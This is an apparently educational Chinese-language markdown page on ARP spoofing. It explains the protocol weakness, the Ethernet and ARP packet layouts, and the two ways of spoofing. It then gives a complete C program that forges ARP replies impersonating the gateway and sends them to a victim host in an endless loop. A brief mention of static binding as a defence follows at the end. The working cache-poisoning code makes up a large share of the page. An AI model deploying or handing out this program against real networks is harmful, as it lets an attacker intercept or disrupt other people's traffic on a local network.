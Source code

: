 ### arp欺骗
在以太网内传输数据包是依靠mac地址的，然后怎么用ip地址查询mac地址就是要靠arp协议。为了减少arp请求的次数，所有支持tcp/ip协议栈的主机都会包含一个arp缓存，这个缓存中包含了ip地址和mac地址的对应关系。但是ARP协议对应的ARP缓存表维护机制中存在不完善的地方，当主机收到一个ARP的应答包后，它并不验证自己是否发送过这个ARP请求，而是直接将应答包里的MAC地址与IP对应的关系替换掉原有的ARP缓存表里的相应信息。这就是导致arp欺骗的根本原因。

![简单示意图](img/arp欺骗_net.png)

欺骗的方式一般是两种：欺骗源发送arp响应报文到网关，报文的内容是IP：10.10.10.3的mac地址是BB-BB-BB-BB-BB-BB。这样欺骗网关，让网关以为是被欺骗的主机。还有就是欺骗源发送arp响应报文到被欺骗主机，报文的内容是IP：10.10.10.1的mac地址是BB-BB-BB-BB-BB-BB这样来伪装自己是网关


以太网帧的结构：
![帧结构](img/arp欺骗_以太网.png)

+ mac destination ——6字节，以太网目的地址，目的地址全为1的特殊地址是广播地址
+ mac source ——6字节，以太网源地址
+ ether type ——2字节，帧类型，payload装载的数据的类型，对于arp协议是0x0806，对于RARP协议，该字段为0x8035
+ payload ——46～1500字节，即存放的协议

arp协议的字段结构：

![arp结构](img/arp欺骗_arp.png)

+ hardware type——2字节 硬件类型：表示硬件地址的类型。值为1时表示以太网地址。也就是说ARP协议不仅仅应用于以太网协议，还可以支持别的链路层协议。
+ protocol type——2字节 协议类型：表示要映射的协议地址类型。值为0x0800时表示IP协议。
+ hardware address length——1字节 硬件地址长度：与硬件类型对应的硬件地址的长度，以字节为单位。如果是以太网，则是6字节（MAC长度）。
+ protocol address length——1字节 协议地址长度：与协议类型对应的协议地址长度，以字节为单位。如果是IP协议，则是4字节（IP地址长度）。
+ operation——2字节 操作类型（op）：四中操作类型。ARP请求（1），ARP应答（2），RARP请求（3），RARP应答（4）。
+ sender hardware address——发送端硬件地址：如果是以太网，则是源主机以太网地址，此处和以太网头中的源地址对应。
+ sender protocol address——发送端协议地址：如果是IP协议，则表示源主机的IP地址。
+ target hardware address——目的端硬件地址：如果是以太网，则是目的以太网地址，和以太网头中的目的地址对应。
+ target protocol address——目的端协议地址：如果是IP协议，则表示源主机要请求硬件地址的IP地址。

对应ARP请求包来说，目的端的硬件地址字段无须填充，其他字段都需要填充。对于ARP回复包来说，所有字段都需要填充。

下面的c代码构造了一个arp包，然后发送请求。可以用于arp欺骗攻击。
```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <errno.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <net/ethernet.h>
#include <netinet/if_ether.h>
#include <arpa/inet.h>
#include <netpacket/packet.h>
#include <net/if.h>
 
// const items
const char INTERFACE[] = "eth0";
const u_char TARGET_MAC[] = {0xb8,0x88,0xe3,0x99,0x95,0xbe}; //victim's mac
const u_char SOURCE_MAC[] = {0x48,0x4d,0x7e,0xfb,0x01,0x38}; //attacker's mac
const u_char TARGET_IP[] = {100,66,2,100};                    //victim's ip
const u_char SOURCE_IP[] = {100,66,0,1};                    //gateway's ip, 这里很重要，因为我们要假装是网关，所以用网关的ip
 
// main function
int main(int argc, char **argv) 
{
    int soc;
    u_char frame[42];        //total length of ethernet head plus arp packet is 42 octets
 
 
    // create socket -- 创建socket(套接字)
    soc = socket(AF_PACKET, SOCK_RAW, htons(ETH_P_ARP));
    if(soc == -1) 
	{
        perror("socket() failed");
        exit(EXIT_FAILURE);
    }
    printf("* Socket created.\n");
 
    
    // create arp frame -- 构建arp帧，其实就是将以太网头部和arp包组合，存入frame[]，前14字节为以太网头，后28字节为arp包
    // 这里使用了2个预先定义好的struct，很方便，不需要我们自己纯手工构建arp帧了
    struct ether_header ehead;
    struct ether_arp earp;
 
    memcpy(ehead.ether_dhost, TARGET_MAC, ETHER_ADDR_LEN);
    memcpy(ehead.ether_shost, SOURCE_MAC, ETHER_ADDR_LEN);
    ehead.ether_type = htons(ETHERTYPE_ARP);
 
    earp.arp_hrd = htons(ARPHRD_ETHER);
    earp.arp_pro = htons(ETHERTYPE_IP);
    earp.arp_hln = ETHER_ADDR_LEN;
    earp.arp_pln = 4;
    earp.arp_op = htons(ARPOP_REPLY);
    memcpy(earp.arp_sha, SOURCE_MAC, ETHER_ADDR_LEN);
    memcpy(earp.arp_spa, SOURCE_IP, 4);
    memcpy(earp.arp_tha, TARGET_MAC, ETHER_ADDR_LEN);
    memcpy(earp.arp_tpa, TARGET_IP, 4);
 
    memcpy(frame, &ehead, sizeof(ehead));
    memcpy(frame + sizeof(ehead), &earp, sizeof(earp));
    printf("* ARP frame created.\n");
 
 
    // make sockaddr_ll ready for sendto() function -- 用作sendto()函数中的参数，此处主要是指定一个网络接口
    struct sockaddr_ll destaddr;
    destaddr.sll_family = AF_PACKET;
    if((destaddr.sll_ifindex = if_nametoindex(INTERFACE)) == 0) 
	{
        perror("if_nametoindex() failed");
        exit(EXIT_FAILURE);
    }
    destaddr.sll_halen = htons(ETHER_ADDR_LEN);
    printf("* struct sockaddr_ll destaddr ready.\n");
 
 
	while(1)
	{
		// send packet to poison -- 将我们之前伪造好的arp响应包发送出去
		if(sendto(soc, frame, sizeof(frame), 0, (struct sockaddr *)&destaddr, sizeof(destaddr)) == -1) 
		{
			perror("sendto() failed");
			exit(EXIT_FAILURE);
		}
		printf("* Packet sent.\n");
	}
 
 
    // close socket -- 完成后关闭socket
    close(soc);
    printf("* Socket closed.\n");
 
    return 0;
}

```
对于防止arp攻击的方式，很多情况下是一个静态的绑定，在网关和主机进行双向的绑定。但是这个方法对于动态分配ip地址的情况那就很头疼。
**参考文献**
[代码来自](https://lngost.github.io/pages/articles/tech/ARP-Packet-By-c/arp-packet-by-c.html)
[arp协议解释来自](http://www.cnblogs.com/luckyxiaoxuan/p/3395527.html)


